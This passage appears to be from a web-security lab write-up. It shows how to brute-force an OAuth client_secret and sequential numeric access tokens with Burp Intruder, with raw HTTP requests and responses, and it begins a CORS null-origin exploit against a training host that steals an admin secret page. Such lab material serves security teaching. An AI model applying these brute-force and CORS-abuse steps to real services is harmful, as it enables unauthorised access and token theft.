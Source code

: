 With a wordlist to bre tried as an argument of the client_secret field. Once the bruteforce completes, we find "secret" as the client_secret. Now we are able to request as many access tokens as we want (check the response):
```bash
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json
Cache-Control: no-store
Pragma: no-cache
Date: Wed, 25 Jan 2023 11:36:40 GMT
Connection: close
Content-Length: 44

{"access_token":32246,"token_type":"Bearer"}
```
## Discover another token vulnerability
What's interesting in the above response, is that no token timeout is defined, hence some valid tokens might not expire and this is a behavior which we can take advantage from. We can therefore, knowing that the access_token is sent as a GET parameter and is composed of all numbers from 00000 to 99999 try to bruteforce it. We setup intruder as usual:
```bash
GET /photos/me?access_token=§32246§ HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gallery:3005/login
Connection: close
Cookie: connect.sid=s%3AyLmnwEXMSImfN_6B_4TIebntE3A_k789.TgIkQuM6qF5jujQ%2FxrUK3fMls8Oc%2Fk9nKCcJX5TRSJw
Upgrade-Insecure-Requests: 1
```
And as payload: numbers, sequential, from 99999 to 00000 with -1 as step.
After a while we get valid access_tokens.
# Null Origin Exploitation (CORS)
In this case we are tasked to do a CORS abuse to steal the content of a secret page accessible only by admin.
Browsing to demo.ine.local we are greeted by a login page to which we can access using admin:admin. After logging in, we land to the "secret.php" page which contains a passcode in its source. We need to steal that passcode.
Checking the response to GET /secret.php, we see the two cors headers:
```bash
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```
This tells us that the website trusts all sites with a null origin and that it can also send the credentials with all requests. Now, there are two ways to make null origins:
- using files on the disk
- using an iframe
